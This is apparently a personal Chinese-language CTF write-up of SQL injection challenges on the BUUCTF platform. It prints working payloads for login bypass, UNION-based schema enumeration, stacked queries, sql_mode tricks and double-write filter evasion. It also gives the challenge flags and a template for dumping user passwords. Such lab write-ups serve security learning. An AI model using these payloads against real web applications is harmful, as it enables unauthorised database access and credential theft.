




# WEB SQL 注入
## 1.  [极客大挑战 2019 EasySQL 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]EasySQL)

### 万能密码

sql 注入出现在查询语句中，相当于是万能密码。

```bash
' or '1' = '1
```

> `#`和`--`的区别就是：`#`后面直接加注释内容，而`--`的第 2 个破折号后需要跟一个空格符在加注释内容。

数字型注入可以，得到flag{b0f90e65-10ad-4d1b-8d3f-983b7adfd763}

## 2. [极客大挑战 2019LoveSQL](https://buuoj.cn/challenges#%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019%5DLoveSQL)

- 使用万能密码，可以登录进去

  ```bash
  ' or '1' = '1
  ```


- 判断回显点

> 因为浏览器不会自动把 # 符号自动编码，所以需要改成 %23（URL编码）

```sql
# 判断回显点位
' union select 1,2,3#
/check.php?username=1' union select 1,2,3%23&password=1  
```


```sql
# 查询有哪些表
' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
# Your password is 'geekuser,l0ve1ysq1'

# 查询geekuser有哪些字段
' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='geekuser'#
# id,username,password

# 查询l0ve1ysq1有哪些字段
' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'#
# id,username,password

# 查询geekuser表数据
' union select 1,2,group_concat(id,username,password) from geekuser#
# 1admin59598f210812a58844a52fcf4e1714ba

# 查询l0ve1ysq1表数据
' union select 1,2,group_concat(id,username,password) from l0ve1ysq1#
# flag{9add47d1-8d6a-4b04-b78a-7143104192e6}
```

## 3. [[SUCTF 2019]EasySQL 1](https://buuoj.cn/challenges#[SUCTF%202019]EasySQL)

- 尝试了字符型、数字型注入，无果。

- 使用burpsuite 进行爆破。

  使用 simple list 中的 sql 注入清单进行测试。[intruder用法](https://t0data.gitbooks.io/burpsuite/content/chapter8.html)

  手工测试发现输入数字后都会出现（有wp说这种输出都是 `var_dump()` 函数输出的结果）。

  发现过滤了很多关键字，类似 delete、update等。结果出现 Too long，Nonono 、或者什么都没有显示。

    

    

  输入数字 1 时候的回显：
  
  ```
  Array([0]= > 1)
  ```
  
  总结一下就是：
  
  - 输入字符串：无回显，过滤了 flag 、update、 and 等关键字。 
  - 输入数字：会有输出查询结果数组
  - 输入过长：会报错 too long

搜索 wp，说原题是由[源码](https://github.com/team-su/SUCTF-2019/tree/master/Web/easy_sql)泄露的，但这题没有??或者我没有找到。。

假装已经有原始 sql 语句了。🐷

```sql
$sql = "select ".$post['query']."||flag from Flag";
```

### 堆叠注入

可以查询到相关的表 Flag，ctf 关键字被过滤了。

```sql
1;show databases;#
Array ( [0] => 1 ) Array ( [0] => ctf ) Array ( [0] => ctftraining ) Array ( [0] => information_schema ) Array ( [0] => mysql ) Array ( [0] => performance_schema ) Array ( [0] => test ) 

1;use ctftraining ;show tables;#
Array ( [0] => 1 ) Array ( [0] => FLAG_TABLE ) Array ( [0] => news ) Array ( [0] => users ) 

1;use ctf;show tables;#
Array ( [0] => 1 ) Array ( [0] => Flag ) 

1;use ctf;show tables;select * from Flag #
Nonono.
```

> 知识点：
>
> - sql_mode
>
>   通过设置 sql_mode 为宽松或者严格，完成不同严格程度的数据校验、不同数据库之间进行迁移等工作。
>
>   - PIPES_AS_CONCAT（为什么会有这么奇妙的设置？）
>
>     将"||"视为字符串的连接操作符而非或运算符，这和Oracle数据库是一样的，也和字符串的拼接函数Concat相类似

- 法1

  mysql 默认 `||` 符号按 `或`处理。

```sql
*,1
# 相当于
sql="select *,1 || flag from Flag";
```

没有过滤 * 号，这条就把数据库内容都查询了出来，然后把 1 查询出来。



- 法2

```sql
1;set sql_mode=pipes_as_concat;select 1
# 相当于
select 1;set sql_mode=pipes_as_concat;select 1||flag from Flag
```

首先查询了 1，接着把 `||` 按照拼接字符功能处理，把数据 1 和 flag列 拼接输出。 (todo最好做实验验证一下)



## 4. [[极客大挑战 2019]BabySQL 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BabySQL)

- 判断注入类型
  - 提示语法错误
      ```
      1'
      1' or 1=1;
      1' or 1=1;#
      ```
      

  - 提示密码错误，这种情况可能是有些关键词被过滤了。

      ```
      1 or 1=1;
      1 or 1=1;#
      ```
      
      

因此判断为数字型注入。用户名设置为 admin 用户，使用万能密码的方式，提示密码错误，找不到数据回显点。

### **双写绕过**

根据下列输入输出，我们可以看出关键字 `or` 被替换为空了。

输入：`1' or 1=1;#`

输出

```bash
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '  1=1;#'' at line 1
```

- 查找回显点

  ```
  1' union select 1,2,3#
  1' ununionion seselectlect 1,2,3#
  1'+ununionion+seselectlect+1%2C2%2C3%23
  ```

  

- 查找相关表、库、字段信息

  ```sql
  # 利用第 3 列，发现很多关键字都被替换了，union、select、or、where、from
  # 查询数据库
  1' union select 1,2,group_concat(schema_name)from information_schema.schemata#
  1' ununionion seselectlect 1,2,group_concat(schema_name)ffromrom infoorrmation_schema.schemata#
  # Your password is 'information_schema,mysql,performance_schema,test,ctf,geek
  
  1' union select 1,2,database()#
  1' ununionion seselectlect 1,2,database()#
  # geek
  
  # 查询表
  1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=ctf#
  1' ununionion seselectlect 1,2,group_concat(table_name) ffromrom infoorrmation_schema.tables whwhereere table_schema="ctf"#
  # Your password is 'Flag'
  
  # 查询字段
  1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='Flag'#
  1' ununionion seselectlect 1,2,group_concat(column_name) ffromrom infoorrmation_schema.columns whwhereere table_name='Flag'#
  # Your password is 'flag'
  
  # 查询该字段
  1' union select 1,2,group_concat(flag) from Flag# 
  1' ununionion seselectlect 1,2,group_concat(flag) ffromrom ctf.Flag#
  # flag{e68780c0-499d-4dbf-99af-7f4eeb47181b}
  ```
  - 根据相关报错修改payload
  
  ```
  Table 'infmation_schema.schemata' doesn't exist
  ```

## 5. [[极客大挑战 2019]HardSQL 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]HardSQL)

使用之前一个系列的payload，当然不顶用了😕


- 未做

## 6. [[极客大挑战 2019]FinalSQL 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]FinalSQL)

- 未做

## 查询模板

在 SQL注入的 payload 里，和 UNION 一起出现的经常是 INFORMATION_SCHEMA

**INFORMATION_SCHEMA** 提供了对数据库元数据的访问，包括 MySQL服务器信息，如数据库或表的名称，列的数据类型，访问权限等

所以在验证存在SQL注入漏洞后，可以使用 UNION 语句查询 INFORMATION_SCHEMA 内的数据，获得其他有用的线索（比如所有数据库名及表名等），用于下一步注入攻击

查询当前数据库中所有的表

```
select * from Product union select group_concat(table_name),2 
from information_schema.tables where table_schema=database();
```

查询User表中有哪些字段

```
select * from Product union select group_concat(column_name),2 
from information_schema.columns where table_name='User';
```

查询User表中某用户的密码

```
select * from Product union select password,2 
from User where user_id = 1;
```

## 参考

- [SUCTF 2019EasySQL ](http://www.xianxianlabs.com/blog/2020/05/27/355.html)

